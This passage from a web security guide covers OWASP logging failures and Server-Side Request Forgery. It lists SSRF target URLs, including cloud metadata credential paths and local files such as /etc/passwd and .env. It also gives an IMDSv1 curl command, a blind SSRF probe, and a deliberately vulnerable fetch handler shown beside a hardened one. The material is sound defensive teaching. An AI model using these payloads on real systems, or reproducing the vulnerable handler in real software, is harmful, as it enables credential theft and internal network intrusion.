Log Shipper (Fluentd / Filebeat / CloudWatch Agent)
      │
      ▼
Centralized SIEM (Splunk / Elasticsearch / Datadog / AWS CloudWatch)
      │
      ├── Real-time alerts on:
      │     • >10 login failures from same IP in 5 min
      │     • Login success from new country
      │     • Admin action outside business hours
      │     • Spike in 403/401 responses
      │     • Access to sensitive endpoints (SSN, PII)
      │
      └── Compliance retention:
            90 days hot (searchable) + 12 months cold (archived)
```

### Defenses

- Log all authentication events: login success/failure, logout, MFA failure, password reset
- Ship logs to a SIEM or centralized store **separate from app servers** — logs on the compromised server are useless
- Alert on anomalies: unusual volume, unexpected geographies, after-hours admin access
- Retain logs for at least 12 months (required by PCI DSS, SOC 2, GDPR's accountability principle)
- Include correlation IDs in logs and HTTP responses to tie distributed events together

See [Logging & Monitoring](/security/incident-response/logging-monitoring) for implementation details.

---

## A10 — Server-Side Request Forgery (SSRF)

**CWEs:** CWE-918

The application fetches a remote resource using a URL supplied or influenced by the attacker. The server makes the request with its own network identity — bypassing firewalls and network controls that protect internal services.

### Attack Mechanics



**Common SSRF targets:**

```
Cloud metadata services:
  AWS:   http://169.254.169.254/latest/meta-data/
  GCP:   http://metadata.google.internal/computeMetadata/v1/
  Azure: http://169.254.169.254/metadata/instance

Internal services (not internet-facing):
  http://internal-db:5432/
  http://redis:6379/
  http://k8s-api:8443/

Local filesystem:
  file:///etc/passwd
  file:///app/.env
  file:///proc/self/environ

Internal admin UIs:
  http://localhost:8080/admin
  http://elasticsearch:9200/_cluster/settings
```

### Blind SSRF

In many cases the response is not returned to the attacker — but the request itself causes harm or leaks information via timing:

```
POST /webhooks/test  { "url": "http://internal-service:3000/api/health" }
→ App responds immediately: service exists, returned 200
→ App responds after timeout: service doesn't exist or port closed
→ This maps your internal network topology
```

### Vulnerable vs Secure Code

```javascript
// VULNERABLE — fetches any URL from user input
app.post('/preview', async (req, res) => {
  const html = await fetch(req.body.url).then(r => r.text());
  res.json({ preview: html.slice(0, 500) });
});

// SECURE — strict URL validation before fetching
const { URL } = require('url');
const ipRangeCheck = require('ip-range-check');

const BLOCKED_RANGES = [
  '10.0.0.0/8', '172.16.0.0/12', '192.168.0.0/16', // RFC1918 private
  '169.254.0.0/16',  // link-local / cloud metadata
  '127.0.0.0/8',     // loopback
  '::1/128',         // IPv6 loopback
];

app.post('/preview', async (req, res) => {
  let url;
  try {
    url = new URL(req.body.url);
  } catch {
    return res.status(400).json({ error: 'Invalid URL' });
  }

  // Only allow https
  if (url.protocol !== 'https:') {
    return res.status(400).json({ error: 'Only HTTPS URLs are allowed' });
  }

  // Resolve hostname and block private/internal ranges
  const { address } = await dns.promises.lookup(url.hostname);
  if (ipRangeCheck(address, BLOCKED_RANGES)) {
    return res.status(400).json({ error: 'URL resolves to a blocked address' });
  }

  // Disable redirects or re-validate after redirect
  const html = await fetch(url.toString(), { redirect: 'error' }).then(r => r.text());
  res.json({ preview: html.slice(0, 500) });
});
```

### AWS IMDSv1 vs IMDSv2

AWS's instance metadata service v1 (IMDSv1) was exploitable by any SSRF. IMDSv2 requires a PUT request first to get a session token, which most SSRF exploits can't do:

```bash
# IMDSv1 — simple GET, exploitable by SSRF
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# IMDSv2 — requires a PUT to obtain a token first
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/

# Enforce IMDSv2 on all new instances (Terraform):
# metadata_options { http_endpoint = "enabled"; http_tokens = "required" }
```

### Defenses

- Validate and allowlist the scheme, hostname, and port of any URL the server will fetch — never rely on a blocklist alone (DNS rebinding bypasses it)
- Block requests to RFC1918 private ranges, loopback, and link-local addresses (`169.254.0.0/16`)
- Resolve DNS before checking — then re-validate the IP (prevents DNS rebinding)
- Route all outbound HTTP through a dedicated egress proxy with an allowlist
- Disable HTTP redirects on server-side fetch, or re-validate the destination after each redirect
- On AWS: enforce IMDSv2 on all EC2 instances

---

## Risk Rating Summary

| # | Category | Incidence | CVEs Mapped | Key CWEs |
|---|---|---|---|---|
| A01 | Broken Access Control | 94% | 34 | CWE-200, CWE-284, CWE-639 |
| A02 | Cryptographic Failures | 51% | 29 | CWE-261, CWE-327, CWE-311 |
| A03 | Injection | 19% | 274 | CWE-89, CWE-78, CWE-94 |
| A04 | Insecure Design | 4% | 40 | CWE-209, CWE-306, CWE-770 |
| A05 | Security Misconfiguration | 90% | 208 | CWE-16, CWE-732 |
| A06 | Vulnerable Components | 27% | 0 (data-driven) | CWE-937, CWE-1035 |
| A07 | Auth Failures | 14% | 8 | CWE-287, CWE-384, CWE-613 |
| A08 | Integrity Failures | 6% | 10 | CWE-345, CWE-502, CWE-494 |
| A09 | Logging Failures | 6% | 3 | CWE-223, CWE-532, CWE-778 |
| A10 | SSRF | 2.7% | 16 | CWE-918 |
